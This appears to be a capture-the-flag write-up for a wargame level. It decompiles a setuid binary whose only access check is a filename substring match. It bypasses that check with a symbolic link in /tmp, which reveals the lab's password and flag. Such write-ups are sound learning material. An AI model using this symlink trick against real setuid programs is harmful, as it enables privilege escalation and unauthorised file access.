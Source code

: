 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2008(level08) gid=2008(level08) groups=2008(level08),100(users)
```

This shows that we are operating as the user `level08`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token


$ file level08
level08: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped

$ file token
token: regular file, no read permission


$ ./level08
level08 [file to read]

$ ./level08 token
./level08 You may not access 'token'
```
The level08 binary is a setuid ELF executable, meaning it executes with flag08 user's privileges. The token file, however, cannot be read directly due to permission restrictions.

Let's transfer it to our local machine for reverse engineering:
```bash
$ scp -P 4242 level08@machine_ip:/home/level08/level08 .
```
---
## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:
```c
void main(int param_1,undefined4 *param_2)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  int in_GS_OFFSET;
  undefined local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 == 1) {
    printf("%s [file to read]\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr((char *)param_2[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open((char *)param_2[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",param_2[1]);
  }
  __n = read(__fd,local_414,1024);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
### Explanation:
Argument Check: The program expects a filename as an argument. If no argument is provided, it displays usage instructions and exits.

Substring Check: The program checks if the provided filename contains the substring "token". If it does, the program denies access and exits.

File Operations: If the filename does not contain "token", the program attempts to open the file, read its contents, and output the first 1024 bytes.

---
## Step 4: Exploiting the Binary to Get a flag
Since the binary prevents direct access to any file with "token" in its name, we can exploit this by creating a symbolic link with a different name that points to the token file.

```bash
ln -s /home/user/level08/token /tmp/tmp
```

```bash
$ ./level08 /tmp/tmp
quif5eloekouj29ke0vouxean

$ su flag08
Password : quif5eloekouj29ke0vouxean

% getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
---

And there you have it, the token is `25749xKZ8L7DkSCwJkT9dyv6f`.
